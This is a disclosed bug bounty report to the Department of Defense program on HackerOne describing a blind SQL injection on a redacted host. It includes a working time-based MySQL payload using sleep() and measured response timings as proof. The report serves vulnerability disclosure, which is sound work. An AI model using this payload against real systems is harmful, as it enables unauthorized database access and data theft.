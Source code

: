# Blind Sql Injection https:/████████

## Report Details
- **Report ID**: 2020429
- **URL**: https://hackerone.com/reports/2020429
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-06-10T09:32:28.973Z
- **Disclosed**: 2023-06-30T17:51:52.063Z

## Reporter
- **Username**: codeslayer1337
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**
found on the websitehttps://████████ weakness is vulnerable to a blind sql injection.

POC: https:/█████████/0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896
Tests Payload performed:
    0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896
    0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z => 10.740
	0'XOR(if(now()=sysdate(),sleep(2),0))XOR'Z => 2.714
    0'XOR(if(now()=sysdate(),sleep(1),0))XOR'Z => 1.927

## Impact

An attacker can use SQL injection to bypass a web application's authentication and authorization mechanisms and retrieve the contents of an entire database. SQLi can also be used to add, modify and delete records in a database, affecting data integrity. Under the right circumstances, SQLi can also be used by an attacker to execute OS commands, which may then be used to escalate an attack even further.
  
Best regards,
CodeSlayer137

## System Host(s)
███

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
https:/██████/0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
